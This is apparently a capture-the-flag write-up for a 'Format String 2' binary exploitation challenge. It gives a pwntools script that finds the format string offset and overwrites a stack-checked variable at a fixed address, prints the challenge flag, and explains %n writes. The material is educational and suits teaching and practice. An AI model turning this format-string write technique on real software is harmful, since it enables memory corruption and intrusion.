 # CTF Write-Up: [Format String 2][Binary Exploitation]

## Description
>This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{f0rm47_57r?_f0rm47_m3m_d42f4d8d}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools
- gdb

## Write-Up

### Preparatory Phase
We are given the source code `vuln.c` and notice that in order to access the flag we need to set the `sus` variable to `0x67616c66`
![alt text](images/image.png)

I then ran `checksec vuln` to determine the architecture and potential protection measures the binary has:
![alt text](images/image-1.png)

I then read the documentation on pwntools, specifically [format strings](#https://docs.pwntools.com/en/stable/fmtstr.html). My main goal at this stage was to write to the address of `sus` the value `0x67616c66.`

Using gdb I was able to run `info address sus` and learn that it is located `0x404060` at ![alt text](images/image-2.png).

### Attack Phase

1. Use pwntools to determine the offset and payload.
2. Write to the address `0x404060` the value `0x67616c66`
3. Obtain the solution: ![alt text](images/image-3.png)

### Final Solution/Payload
```python
from pwn import *

local = False
host = <insert host>
port = <insert port>
program = './vuln'
context.binary = ELF('./vuln')

if local:
    io = process('./vuln')
else: 
    io = remote(host, port)

def exec_fmt(payload):
    if local:
        io = process('./vuln')
    else: 
        io = remote(host, port)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
print(payload)

io.recv()
io.sendline(payload)
print(io.recvall())

```

### Lessons Learnt
- Be careful and cognizant of 32-bit and 64-bit architectures as the [calling conventions](https://github.com/kaliypsocraft/something-awesome/blob/main/ANALYSIS.md#calling-conventions) between processors can affect the way we conduct our attacks. This is vital for most binary exploitation exercises.
- pwntools has well established tools to exploit format string vulnerabilities
- Instead of writing `%p|%p|%p...`, once I find the correct offset i.e. the first block of bytes where by it writes `%p%p` directly I just use `%<offset>$<specifier>`.
- `%n` is powerful and can write data into a particular address if exploited. Usually it prints the number of bytes which have been written thus far. The following example stores 3 into the address of the variable test. 
```c
printf("123%n", &test)
```

## References
- https://cs155.stanford.edu/papers/formatstring-1.2.pdf
- https://docs.pwntools.com/en/stable/fmtstr.html


